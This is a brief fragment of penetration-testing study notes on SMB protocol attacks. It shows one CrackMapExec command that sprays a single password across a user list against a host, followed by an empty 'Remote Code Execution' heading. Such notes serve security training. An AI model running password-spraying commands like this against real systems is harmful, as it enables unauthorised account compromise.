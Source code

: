 
## Protocol Specific Attacks

Password spraying can be done with CrackMapExec on SMB

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

### Remote Code Execution



